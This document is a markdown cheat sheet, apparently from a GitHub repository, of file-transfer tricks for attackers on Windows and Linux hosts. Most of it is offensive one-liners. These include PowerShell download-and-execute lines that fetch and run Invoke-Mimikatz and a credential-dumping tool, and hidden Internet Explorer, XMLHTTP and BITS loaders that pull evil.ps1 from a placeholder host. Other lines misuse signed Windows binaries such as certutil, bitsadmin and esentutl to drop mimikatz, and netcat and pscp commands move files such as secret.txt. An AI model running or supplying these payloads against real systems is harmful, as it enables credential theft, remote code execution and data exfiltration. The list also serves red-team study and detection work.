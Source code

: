 # Ultimate File Transfer List

## powershell.exe

### powershell proxy auth
<small>
$Client = New-Object -TypeName System.Net.WebClient
$Client.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials
IEX (iwr 'https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
</small>

### powershell 4.0 & 5.0 Invoke-WebRequest (works in constrained language mode)

Invoke-WebRequest "http://10.10.10.10/mimikatz.exe" -OutFile "C:\Users\Public\mimikatz.exe"


### powershell 3.0+ download and execute (bypass IE firstrun check)

IEX (iwr 'https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1' -UseBasicParsing)


### powershell (any version)

powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')"


(New-Object System.Net.WebClient).DownloadFile("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1", "C:\Users\Public\Invoke-Mimikatz.ps1")


### hidden IE com object

$ie=New-Object -comobject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://EVIL/evil.ps1');start-sleep -s 5;$r=$ie.Document.body.innerHTML;$ie.quit();IEX $r


### Msxml2.XMLHTTP COM object

$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://EVIL/evil.ps1',$false);$h.send();iex $h.responseText


### WinHttp COM object

[System.Net.WebRequest]::DefaultWebProxy
[System.Net.CredentialCache]::DefaultNetworkCredentials
$h=new-object -com WinHttp.WinHttpRequest.5.1;$h.open('GET','http://EVIL/evil.ps1',$false);$h.send();iex $h.responseText


### bitstransfer

Import-Module bitstransfer;Start-BitsTransfer 'http://EVIL/evil.ps1' $env:temp\t;$r=gc $env:temp\t;rm $env:temp\t; iex $r


// DNS TXT approach from PowerBreach (https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerBreach/PowerBreach.ps1)
//   code to execute needs to be a base64 encoded string stored in a TXT record

IEX ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String(((nslookup -querytype=txt "SERVER" | Select -Pattern '"*"') -split '"'[0]))))



### from @subtee

<#
<?xml version="1.0"?>
<command>
   <a>
      <execute>Get-Process</execute>
   </a>
  </command>
#>
$a = New-Object System.Xml.XmlDocument
$a.Load("https://gist.githubusercontent.com/subTee/47f16d60efc9f7cfefd62fb7a712ec8d/raw/1ffde429dc4a05f7bc7ffff32017a3133634bc36/gistfile1.txt")
$a.command.a.execute | iex


References:

https://gist.github.com/HarmJ0y/bb48307ffa663256e239


## bitsadmin.exe

cmd.exe /c "bitsadmin.exe /transfer downld_job /download /priority high http://www.trustedsite.com C:\Temp\mimikatz.exe & start C:\Temp\mimikatz.exe"

References: 

https://www.greyhathacker.net/?tag=download-and-execute


## ssh / pscp.exe
```
pscp.exe C:\Users\Public\info.txt phineas@target:/tmp/info.txt
pscp.exe phineas@target:/home/phineas/secret.txt C:\Users\Public\secret.txt
```

## certutil.exe
```
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1
```
References:

https://twitter.com/subtee/status/888122309852016641?lang=en


## certutil.exe / base64
```
certutil.exe -encode mimikatz.exe mimikatz.txt
certutil.exe -decode mimikatz.txt mimikatz.exe

cat binary.exe | base64 -w 0
echo {base64_data} | base64 -d > binary.exe
```

## print.exe
```
C:\Windows\System32\print.exe /D c:\TEMP\ADExplorer.exe \\live.sysinternals.com\tools\ADExplorer.exe
```
References:

https://twitter.com/Oddvarmoe/status/984749424395112448


## makecab.exe
```
C:\Windows\System32\makecab.exe \\10.10.10.10\share\nmap.zip C:\Users\Public\nmap.cab
```

## esentutl.exe
```
C:\Windows\System32\esentutl.exe /y "\\10.10.10.10\share\mimikatz_trunk.zip" /d"C:\Users\Public\mimikatz_trunk.zip" /o
```

## extrac32.exe
```
C:\Windows\System32\extrac32.exe /Y /C \\10.10.10.10\share\secret.txt C:\Users\Public\secret.txt
```

## netcat
```
nc -nlvp 8000 > mimi_incoming.exe
nc -nv 10.10.10.10 8000 </tmp/mimikatz.exe
```

## web browser / server
```
python -m SimpleHTTPServer 80
python3 -m http.server
ruby -run -ehttpd . -p80
php -S 0.0.0.0:80
socat TCP-LISTEN:80,reuseaddr,fork
```

## wget
```
wget http://10.10.10.10:80/info.txt -O /tmp/info.txt
```

## curl
```
curl -o /tmp/info.txt http://10.10.10.10:80/info.txt
```

## rdesktop
```
rdesktop 10.10.10.10 -r disk:linux='/home/user/rdesktop/files'
```



